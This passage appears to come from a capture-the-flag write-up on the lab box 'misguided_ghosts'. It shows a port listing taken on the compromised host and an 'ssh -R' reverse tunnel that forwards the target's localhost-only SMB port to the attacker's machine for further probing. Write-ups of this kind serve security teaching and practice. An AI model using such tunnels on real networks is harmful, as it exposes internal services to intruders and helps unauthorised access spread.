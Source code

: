 

<br>
Inspecting Open Ports inside the target host, We can see an open SMB port.

```SH
zac@misguided_ghosts:~$ ss -tunlp
Netid            State              Recv-Q             Send-Q                              Local Address:Port                           Peer Address:Port             
udp              UNCONN             0                  0                                         0.0.0.0:37772                               0.0.0.0:*                
udp              UNCONN             0                  0                                   127.0.0.53%lo:53                                  0.0.0.0:*                
udp              UNCONN             0                  0                               10.10.29.172%eth0:68                                  0.0.0.0:*                
tcp              LISTEN             0                  128                                 127.0.0.53%lo:53                                  0.0.0.0:*                
tcp              LISTEN             0                  128                                       0.0.0.0:22                                  0.0.0.0:*                
tcp              LISTEN             0                  50                                      127.0.0.1:445                                 0.0.0.0:*                
tcp              LISTEN             0                  50                                      127.0.0.1:139                                 0.0.0.0:*                
tcp              LISTEN             0                  128                                     127.0.0.1:46315                               0.0.0.0:*                
tcp              LISTEN             0                  32                                              *:21                                        *:*                
tcp              LISTEN             0                  128                                          [::]:22                                     [::]:*                
tcp              LISTEN             0                  50                                          [::1]:445                                    [::]:*                
tcp              LISTEN             0                  50                                          [::1]:139                                    [::]:*                
zac@misguided_ghosts:~$ 
```



<br>

As the target host doesn't include SMB system related tools, like smbmap or smbclient, i'll be reverse port forwarding port 445 to my local machine for furthur investigation: 

```SH
zac@misguided_ghosts:~$ ssh -R 4455:127.0.0.1:445 m3dsec@10.9.123.226 -N -f
The authenticity of host '10.9.123.226 (10.9.123.226)' can't be established.
ECDSA key fingerprint is SHA256:jtZPaZGzdQgns9gmC6kIZWaQhNeG2vYZflH/wGMqnq0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.9.123.226' (ECDSA) to the list of known hosts.
m3dsec@10.9.123.226's password: 
zac@misguided_ghosts:~$ 
```

<br>
Back To my host we see the new open smb port, lets explore it :
